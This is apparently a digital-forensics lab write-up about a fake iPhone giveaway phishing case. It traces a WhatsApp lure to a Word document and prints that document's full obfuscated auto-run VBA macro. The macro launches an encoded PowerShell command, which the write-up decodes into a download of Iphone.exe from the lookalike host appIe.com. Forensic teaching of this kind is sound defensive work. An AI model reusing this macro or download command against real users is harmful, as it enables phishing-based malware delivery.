




# The Fake iPhone Giveaway Trap: Uncovering a Cyber Threat Through Disk Forensics

<aside>
📌

## **Scenario:**

A company’s employee joined a fake iPhone giveaway. Our team took a disk image of the employee's system for further analysis.

Our task is to identify how the system was compromised.

</aside>

We have acquired the image file of the host system. Lets start with verifying the hash value for integrity check.



The hash value matches the hash the was noted down when the image was created. Lets now start our investigation

Lets start with identifying the Computer Name to make sure we are analyzing the right system. We do this by exporting the `SYSTEM` Registry File and opening it using a Registry Viewer. To find the Computer name we have to navigate to `ControlSet001\Control\ComputerName` , here we find out the computer name to be `WIN-NF3JQEU4G0T` 




Going through the Users downloads we see that the user has `WhatsApp` installed through which the user got a document regarding the Fake iPhone Giveaway Contest.

While questioning the user about the incident, she revealed that the attacker had deceived her into downloading a malicious document through WhatsApp.

Let’s start with exporting the `msgstore.db` from `Users\Semah\AppData\WhatsApp\Databases` . 


From the hex we can see that it is a SQLite database. We can use `WhatsApp Viewer` to view this database. 

And just like that we have access to the attackers chat with the victim.


```python
21698231645@s.whatsapp.net

20-03-2021 - 02:11:07 AM; ME: Hello
20-03-2021 - 02:11:07 AM; ME: 
20-03-2021 - 02:11:44 AM; he: Hello
20-03-2021 - 02:11:49 AM; he: who is with me ?
20-03-2021 - 02:12:42 AM; ME: You registered in apple competition to win an IPhone 12 special edition
20-03-2021 - 02:13:00 AM; he: oh hello, did I win?
20-03-2021 - 02:13:49 AM; ME: [ Link: We listed the 5 winners in this document "http://appIe.com/IPhone-Winners.doc" ]
20-03-2021 - 02:14:43 AM; he: Okaay i got it, thank you for the information
20-03-2021 - 02:14:59 AM; ME: Good Luck
20-03-2021 - 02:15:33 AM; ME: : )
20-03-2021 - 02:16:00 AM; he: It seems I had not win
20-03-2021 - 02:16:30 AM; ME: We are sorry to here that
20-03-2021 - 02:16:48 AM; he: Thanks
20-03-2021 - 02:17:05 AM; ME: You are welcome
20-03-2021 - 02:17:16 AM; he: ......

```

From the chat we can see that the attacker sent a suspicious link at `02:13:49 AM` to download a document. This is where it all starts.

Since we know that the victim has already downloaded the file, we can export the file from FTK Imager. The file was downloaded  to `Users\Semah\Downloads` .


I’ll export and open it in my Kali VM so that it doesn’t do anything funny with my system.

As soon as i downloaded the file it got removed. 


Well i guess I’ll have to figure out a way to run FTK Imager in Kali.

We can run `.exe` applications in Linux using `wine` . [[https://www.winehq.org/](https://www.winehq.org/) ]. Now i can run FTK Imager in my VM and extract `IPhone-Winners.doc` file for further analysis. We can use [`oledump.py`](http://oledump.py)  to do OLE File analysis. [[https://github.com/decalage2/oletools/tree/master](https://github.com/decalage2/oletools/tree/master)]

```python
┌──(kali㉿kali)-[~/resources]
└─$ python3 DidierStevensSuite/oledump.py ~/Desktop/IPhone-Winners.doc 
  1:       114 '\x01CompObj'
  2:      4096 '\x05DocumentSummaryInformation'
  3:      4096 '\x05SummaryInformation'
  4:      8473 '1Table'
  5:       501 'Macros/PROJECT'
  6:        68 'Macros/PROJECTwm'
  7:      3109 'Macros/VBA/_VBA_PROJECT'
  8:       800 'Macros/VBA/dir'
  9: M    1170 'Macros/VBA/eviliphone'
 10: M    5581 'Macros/VBA/iphoneevil'
 11:      4096 'WordDocument'
```

We can see that there are multiple macros present.

Now we will use `olevba.py` to further analyze the macros.

```python
┌──(kali㉿kali)-[~/resources/oletools-0.60.2/oletools]
└─$ python3 olevba.py ~/Desktop/IPhone-Winners.doc                    
olevba 0.60.2 on Python 3.13.2 - http://decalage.info/python/oletools
===============================================================================
FILE: /home/kali/Desktop/IPhone-Winners.doc
Type: OLE
-------------------------------------------------------------------------------
VBA MACRO eviliphone.cls 
in file: /home/kali/Desktop/IPhone-Winners.doc - OLE stream: 'Macros/VBA/eviliphone'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
Private Sub _
Document_open()
lllllllll1l
End Sub

-------------------------------------------------------------------------------
VBA MACRO iphoneevil.bas 
in file: /home/kali/Desktop/IPhone-Winners.doc - OLE stream: 'Macros/VBA/iphoneevil'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
Function lllllllll1l()
    Dim lllllllllll As String
    Dim llllllllll1 As String
    lllllllllll = Chr(97) & Chr(81) ......
    {...}
    l1, 0, True
End Function

+----------+--------------------+---------------------------------------------+
|Type      |Keyword             |Description                                  |
+----------+--------------------+---------------------------------------------+
|AutoExec  |Document_open       |Runs when the Word or Publisher document is  |
|          |                    |opened                                       |
|Suspicious|Run                 |May run an executable file or a system       |
|          |                    |command                                      |
|Suspicious|CreateObject        |May create an OLE object                     |
|Suspicious|Chr                 |May attempt to obfuscate specific strings    |
|          |                    |(use option --deobf to deobfuscate)          |
+----------+--------------------+---------------------------------------------+
```

From the result table we can see that it uses character string obfuscation. We can use `--deobf`  option to deobfuscate it.

```python
┌──(kali㉿kali)-[~/resources/oletools-0.60.2/oletools]
└─$ python3 olevba.py --deobf ~/Desktop/IPhone-Winners.doc
olevba 0.60.2 on Python 3.13.2 - http://decalage.info/python/oletools
===============================================================================
FILE: /home/kali/Desktop/IPhone-Winners.doc
Type: OLE
-------------------------------------------------------------------------------
VBA MACRO eviliphone.cls 
in file: /home/kali/Desktop/IPhone-Winners.doc - OLE stream: 'Macros/VBA/eviliphone'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
Private Sub _
Document_open()
lllllllll1l
End Sub

-------------------------------------------------------------------------------
VBA MACRO iphoneevil.bas 
in file: /home/kali/Desktop/IPhone-Winners.doc - OLE stream: 'Macros/VBA/iphoneevil'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
Function lllllllll1l()
    Dim lllllllllll As String
    Dim llllllllll1 As String
    lllllllllll = Chr(97) & Chr(81) & Chr(66) & Chr(117) & Chr(65) & Chr(72) & Chr(89) & Chr(65) & Chr(98) & Chr(119) & Chr(66) & Chr(114) & Chr(65) & Chr(71) & Chr(85) & Chr(65) & Chr(76) & Chr(81) & Chr(66) & Chr(51) & Chr(65) & Chr(71) & Chr(85) & Chr(65) & Chr(89) & Chr(103) & Chr(66) & Chr(121) & Chr(65) & Chr(71) & Chr(85) & Chr(65) & Chr(99) & Chr(81) & Chr(66) & Chr(49) & Chr(65) & Chr(71) & Chr(85) & Chr(65) & Chr(99) & Chr(119) & Chr(66) & Chr(48) & Chr(65) & Chr(67) & Chr(65) & Chr(65) & Chr(76) & Chr(81) & _
Chr(66) & Chr(86) & Chr(65) & Chr(72) & Chr(73) & Chr(65) & Chr(97) & Chr(81) & Chr(65) & Chr(103) & Chr(65) & Chr(67) & Chr(99) & Chr(65) & Chr(97) & Chr(65) & Chr(66) & Chr(48) & Chr(65) & Chr(72) & Chr(81) & Chr(65) & Chr(99) & Chr(65) & Chr(65) & Chr(54) & Chr(65) & Chr(67) & Chr(56) & Chr(65) & Chr(76) & Chr(119) & Chr(66) & Chr(104) & Chr(65) & Chr(72) & Chr(65) & Chr(65) & Chr(99) & Chr(65) & Chr(66) & Chr(74) & Chr(65) & Chr(71) & Chr(85) & Chr(65) & Chr(76) & Chr(103) & Chr(66) & Chr(106) & Chr(65) & Chr(71) & Chr(56) & Chr(65) & Chr(98) & Chr(81) & Chr(65) _
& Chr(118) & Chr(65) & Chr(69) & Chr(107) & Chr(65) & Chr(99) & Chr(65) & Chr(66) & Chr(111) & Chr(65) & Chr(71) & Chr(56) & Chr(65) & Chr(98) & Chr(103) & Chr(66) & Chr(108) & Chr(65) & Chr(67) & Chr(52) & Chr(65) & Chr(90) & Chr(81) & Chr(66) & Chr(52) & Chr(65) & Chr(71) & Chr(85) & Chr(65) & Chr(74) & Chr(119) & Chr(65) & Chr(103) & Chr(65) & Chr(67) & Chr(48) & Chr(65) & Chr(84) & Chr(119) & Chr(66) & Chr(49) & Chr(65) & Chr(72) & Chr(81) & Chr(65) & Chr(82) & Chr(103) & Chr(66) & Chr(112) & Chr(65) & Chr(71) & Chr(119) & Chr(65) & Chr(90) & Chr(81) & Chr(65) & _
Chr(103) & Chr(65) & Chr(67) & Chr(99) & Chr(65) & Chr(81) & Chr(119) & Chr(65) & Chr(54) & Chr(65) & Chr(70) & Chr(119) & Chr(65) & Chr(86) & Chr(65) & Chr(66) & Chr(108) & Chr(65) & Chr(71) & Chr(48) & Chr(65) & Chr(99) & Chr(65) & Chr(66) & Chr(99) & Chr(65) & Chr(69) & Chr(107) & Chr(65) & Chr(85) & Chr(65) & Chr(66) & Chr(111) & Chr(65) & Chr(71) & Chr(56) & Chr(65) & Chr(98) & Chr(103) & Chr(66) & Chr(108) & Chr(65) & Chr(67) & Chr(52) & Chr(65) & Chr(90) & Chr(81) & Chr(66) & Chr(52) & Chr(65) & Chr(71) & Chr(85) & Chr(65) & Chr(74) & Chr(119) & Chr(65) & _
Chr(103) & Chr(65) & Chr(67) & Chr(48) & Chr(65) & Chr(86) & Chr(81) & Chr(66) & Chr(122) & Chr(65) & Chr(71) & Chr(85) & Chr(65) & Chr(82) & Chr(65) & Chr(66) & Chr(108) & Chr(65) & Chr(71) & Chr(89) & Chr(65) & Chr(89) & Chr(81) & Chr(66) & Chr(49) & Chr(65) & Chr(71) & Chr(119) & Chr(65) & Chr(100) & Chr(65) & Chr(66) & Chr(68) & Chr(65) & Chr(72) & Chr(73) & Chr(65) & Chr(90) & Chr(81) & Chr(66) & Chr(107) & Chr(65) & Chr(71) & Chr(85) & Chr(65) & Chr(98) & Chr(103) & Chr(66) & Chr(48) & Chr(65) & Chr(71) & Chr(107) & Chr(65) & Chr(89) & Chr(81) & Chr(66) & Chr(115) _
& Chr(65) & Chr(72) & Chr(77) & Chr(65)
    llllllllll1 = Chr(112) & Chr(111) & Chr(119) & Chr(101) & Chr(114) & Chr(115) & Chr(104) & Chr(101) & Chr(108) & Chr(108) & Chr(32) & Chr(45) & Chr(69) & Chr(110) & Chr(99) & Chr(111) & Chr(100) & Chr(101) & Chr(100) & Chr(67) & Chr(111) & Chr(109) & Chr(109) & Chr(97) & Chr(110) & Chr(100) & lllllllllll
    CreateObject(Chr(87) & Chr(83) & Chr(99) & Chr(114) & Chr(105) & Chr(112) & Chr(116) & Chr(46) & Chr(83) & Chr(104) & Chr(101) & Chr(108) & Chr(108)).Run llllllllll1, 0, True
End Function

+----------+--------------------+---------------------------------------------+
|Type      |Keyword             |Description                                  |
+----------+--------------------+---------------------------------------------+
|AutoExec  |Document_open       |Runs when the Word or Publisher document is  |
|          |                    |opened                                       |
|Suspicious|Run                 |May run an executable file or a system       |
|          |                    |command                                      |
|Suspicious|CreateObject        |May create an OLE object                     |
|Suspicious|Chr                 |May attempt to obfuscate specific strings    |
|          |                    |(use option --deobf to deobfuscate)          |
|Suspicious|Shell               |May run an executable file or a system       |
|          |                    |command (obfuscation: VBA expression)        |
|Suspicious|WScript.Shell       |May run an executable file or a system       |
|          |                    |command (obfuscation: VBA expression)        |
|Suspicious|powershell          |May run PowerShell commands (obfuscation: VBA|
|          |                    |expression)                                  |
|Suspicious|EncodedCommand      |May run PowerShell commands (obfuscation: VBA|
|          |                    |expression)                                  |
|Suspicious|VBA obfuscated      |VBA string expressions were detected, may be |
|          |Strings             |used to obfuscate strings (option --decode to|
|          |                    |see all)                                     |
|VBA string|aQBuAHYAbwBrAGUALQB3|Chr(97) & Chr(81) & Chr(66) & Chr(117) &     |
|          |AGUAYgByAGUAcQB1AGUA|Chr(65) & Chr(72) & Chr(89) & Chr(65) &      |
|          |cwB0ACAALQBVAHIAaQAg|Chr(98) & Chr(119) & Chr(66) & Chr(114) &    |
|          |ACcAaAB0AHQAcAA6AC8A|Chr(65) & Chr(71) & Chr(85) & Chr(65) &      |
|          |LwBhAHAAcABJAGUALgBj|Chr(76) & Chr(81) & Chr(66) & Chr(51) &      |
|          |AG8AbQAvAEkAcABoAG8A|Chr(65) & Chr(71) & Chr(85) & Chr(65) &      |
|          |bgBlAC4AZQB4AGUAJwAg|Chr(89) & Chr(103) & Chr(66) & Chr(121) &    |
|          |AC0ATwB1AHQARgBpAGwA|Chr(65) & Chr(71) & Chr(85) & Chr(65) &      |
|          |ZQAgACcAQwA6AFwAVABl|Chr(99) & Chr(81) & Chr(66) & Chr(49) &      |
|          |AG0AcABcAEkAUABoAG8A|Chr(65) & Chr(71) & Chr(85) & Chr(65) &      |
|          |bgBlAC4AZQB4AGUAJwAg|Chr(99) & Chr(119) & Chr(66) & Chr(48) &     |
|          |AC0AVQBzAGUARABlAGYA|Chr(65) & Chr(67) & Chr(65) & Chr(65) &      |
|          |YQB1AGwAdABDAHIAZQBk|Chr(76) & Chr(81) & Chr(66) & Chr(86) &      |
|          |AGUAbgB0AGkAYQBsAHMA|Chr(65) & Chr(72) & Chr(73) & Chr(65) &      |
|          |                    |Chr(97) & Chr(81) & Chr(65) & Chr(103) &     |
|          |                    |Chr(71) & Chr(107) & Chr(65) &               |
|          |                    |Chr(89) & Chr(81) & Chr(66) & Chr(115) &     |
|          |                    |Chr(65) & Chr(72) & Chr(77) & Chr(65)        |
|VBA string|powershell          |Chr(112) & Chr(111) & Chr(119) & Chr(101) &  |
|          |-EncodedCommand     |Chr(114) & Chr(115) & Chr(104) & Chr(101) &  |
|          |                    |Chr(108) & Chr(108) & Chr(32) & Chr(45) &    |
|          |                    |Chr(69) & Chr(110) & Chr(99) & Chr(111) &    |
|          |                    |Chr(100) & Chr(101) & Chr(100) & Chr(67) &   |
|          |                    |Chr(111) & Chr(109) & Chr(109) & Chr(97) &   |
|          |                    |Chr(110) & Chr(100)                          |
|VBA string|WScript.Shell       |(Chr(87) & Chr(83) & Chr(99) & Chr(114) &    |
|          |                    |Chr(105) & Chr(112) & Chr(116) & Chr(46) &   |
|          |                    |Chr(83) & Chr(104) & Chr(101) & Chr(108) &   |
|          |                    |Chr(108))                                    |
+----------+--------------------+---------------------------------------------+

```

From the output we can see that it executed `powershell` . VBA Obfuscated strings are also detected which is probably the command that was run in `powershell`. The string looks like `base64` so lets decode it.

```python
Base64_String = "aQBuAHYAbwBrAGUALQB3AGUAYgByAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgACcAaAB0AHQAcAA6AC8ALwBhAHAAcABJAGUALgBjAG8AbQAvAEkAcABoAG8AbgBlAC4AZQB4AGUAJwAgAC0ATwB1AHQARgBpAGwAZQAgACcAQwA6AFwAVABlAG0AcABcAEkAUABoAG8AbgBlAC4AZQB4AGUAJwAgAC0AVQBzAGUARABlAGYAYQB1AGwAdABDAHIAZQBkAGUAbgB0AGkAYQBsAHMA"
```

Decoding it we get to see the command that was run

```python
┌──(kali㉿kali)-[~]
└─$ echo "aQBuAHYAbwBrAGUALQB3AGUAYgByAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgACcAaAB0AHQAcAA6AC8ALwBhAHAAcABJAGUALgBjAG8AbQAvAEkAcABoAG8AbgBlAC4AZQB4AGUAJwAgAC0ATwB1AHQARgBpAGwAZQAgACcAQwA6AFwAVABlAG0AcABcAEkAUABoAG8AbgBlAC4AZQB4AGUAJwAgAC0AVQBzAGUARABlAGYAYQB1AGwAdABDAHIAZQBkAGUAbgB0AGkAYQBsAHMA" | base64 -d | iconv -f UTF-16LE -t UTF-8

invoke-webrequest -Uri 'http://appIe.com/Iphone.exe' -OutFile 'C:\Temp\IPhone.exe' -UseDefaultCredentials    
```

We can see that this a VBA macro attack case where the attacker downloaded the malware `Iphone.exe`  by using `invoke-webrequest` from `http://appIe.com` and saved it in `C:\Temp\Iphone.exe` . Navigating to the `Temp`  directory in FTK Imager we can see the `Iphone.exe` exists.


Let’s export it, generate its hash and get the details about this malware from `virustotal.com`

```python
┌──(kali㉿kali)-[~/Desktop]
└─$ md5sum IPhone.exe 
7c827274c062374e992eb8f33d0c188c  IPhone.exe
```





We can see that this malware was created using `Metasploit` . We can also find the attackers IP address in `virustotal.com` 


---

**Conclusion**

Through our forensic analysis, we successfully identified the attack vector that led to the system's compromise. The investigation revealed that the user was deceived into downloading a malicious document via WhatsApp as part of a fake iPhone giveaway scam.

Key findings include:

- The attacker tricked the victim into downloading `IPhone-Winners.doc`, which contained malicious VBA macros.
- The document executed obfuscated VBA code upon opening, indicating an auto-executing macro-based attack.
- The payload likely facilitated further compromise, such as downloading additional malware or exfiltrating sensitive data. We will need a Malware Analysis specialist for further analysis

This case highlights the importance of user awareness regarding social engineering attacks. Organizations should implement strict cybersecurity policies, including:

- Blocking macros in untrusted documents.
- Training employees on phishing and social engineering tactics.
- Using endpoint detection tools to monitor suspicious document activity.

By understanding and mitigating such threats, organizations can better protect their systems from similar attacks in the future.